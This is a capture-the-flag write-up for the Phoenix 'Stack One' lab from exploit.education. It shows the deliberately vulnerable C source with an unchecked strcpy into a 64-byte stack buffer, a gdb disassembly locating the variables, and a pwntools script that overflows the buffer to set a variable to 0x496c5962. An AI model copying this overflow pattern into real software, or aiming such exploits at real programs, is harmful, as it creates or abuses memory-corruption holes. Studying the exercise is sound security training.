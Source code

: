 ```yaml
---
title: "Stack One"
permalink: "exploit-education/phoenix/:title"
layout: post
---
```



```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  printf("%s\n", BANNER);

  if (argc < 2) {
    errx(1, "specify an argument, to be copied into the \"buffer\"");
  }

  locals.changeme = 0;
  strcpy(locals.buffer, argv[1]);

  if (locals.changeme == 0x496c5962) {
    puts("Well done, you have successfully set changeme to the correct value");
  } else {
    printf("Getting closer! changeme is currently 0x%08x, we want 0x496c5962\n",
        locals.changeme);
  }

  exit(0);
}
```

This code uses **strcpy** function which is dangerous because the source size could be more than destination size.

The only difference from this level and the previous one is that it requires **changeme** to be set to a specific value **0x496c5962**.

Now we can use gdb:

```
$ gdb -q /opt/phoenix/amd64/stack-one
Reading symbols from stack-one...(no debugging symbols found)...done.

gef➤  disassemble main 
Dump of assembler code for function main:
   0x000000000040066d <+0>:	push   rbp
   0x000000000040066e <+1>:	mov    rbp,rsp
   0x0000000000400671 <+4>:	sub    rsp,0x60
   0x0000000000400675 <+8>:	mov    DWORD PTR [rbp-0x54],edi
   0x0000000000400678 <+11>:	mov    QWORD PTR [rbp-0x60],rsi
   0x000000000040067c <+15>:	mov    edi,0x400750
   0x0000000000400681 <+20>:	call   0x4004c0 <puts@plt>
   0x0000000000400686 <+25>:	cmp    DWORD PTR [rbp-0x54],0x1
   0x000000000040068a <+29>:	jg     0x4006a0 <main+51>
   0x000000000040068c <+31>:	mov    esi,0x4007a0
   0x0000000000400691 <+36>:	mov    edi,0x1
   0x0000000000400696 <+41>:	mov    eax,0x0
   0x000000000040069b <+46>:	call   0x4004d0 <errx@plt>
   0x00000000004006a0 <+51>:	mov    DWORD PTR [rbp-0x10],0x0
   0x00000000004006a7 <+58>:	mov    rax,QWORD PTR [rbp-0x60]
   0x00000000004006ab <+62>:	add    rax,0x8
   0x00000000004006af <+66>:	mov    rdx,QWORD PTR [rax]
   0x00000000004006b2 <+69>:	lea    rax,[rbp-0x50]
   0x00000000004006b6 <+73>:	mov    rsi,rdx
   0x00000000004006b9 <+76>:	mov    rdi,rax
   0x00000000004006bc <+79>:	call   0x4004a0 <strcpy@plt>
   .....
```

We can see that  **buffer** is at **rbp-0x50** (main+69) and **changeme** is at **rbp-0x10** (main+51) so we need 64 characters to fill this gap then we can overwrite **changeme** value.

# Solution:

```python
# solve.py

from pwn import *

buff = ""
buff += 'A'*64
buff += p64(0x496c5962)

print(buff)
```

```
$ /opt/phoenix/amd64/stack-one $(python solve.py)
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```



